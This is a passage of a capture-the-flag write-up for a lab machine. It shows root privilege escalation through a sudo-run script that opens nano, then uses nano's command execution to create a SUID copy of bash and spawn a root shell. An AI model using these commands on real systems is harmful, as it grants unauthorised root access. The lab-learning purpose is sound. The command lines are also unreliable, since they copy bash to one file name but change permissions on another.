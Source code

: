 We can use **/bin/nano** to execute commands as root. We have to choose the "read" option:
```bash
mike@gallery:/opt$ sudo /bin/bash /opt/rootkit.sh
```
```
Would you like to versioncheck, update, list or read the report ? read
Error opening terminal: unknown.
```

But it returns an error from nano. That problem is resolved in https://bobcares.com/blog/docker-error-opening-terminal-unknown/

Then, inside the text editor, I type **CTRL+R** in order to open a file, then **CTRL+X** to execute a command, and I do the following:
```bash
cp /bin/bash /tmp/custom_bash; chmod 777 /tmp/bash; chmod u+s /tmp/bash;
```

I exit from nano and I execute the copy of bash - [GTFOBins ref](https://gtfobins.github.io/gtfobins/bash/#suid):
```bash
./custom_bash -p
```

![e909f82c9f4cc91861f150d869ec0a58.png](https://raw.githubusercontent.com/mor88888888/writeups/main/gallery666/_resources/e909f82c9f4cc91861f150d869ec0a58.png)

The **root** flag:

![1d64a4fbd84e64582f2fdccb0832baf9.png](https://raw.githubusercontent.com/mor88888888/writeups/main/gallery666/_resources/1d64a4fbd84e64582f2fdccb0832baf9.png)
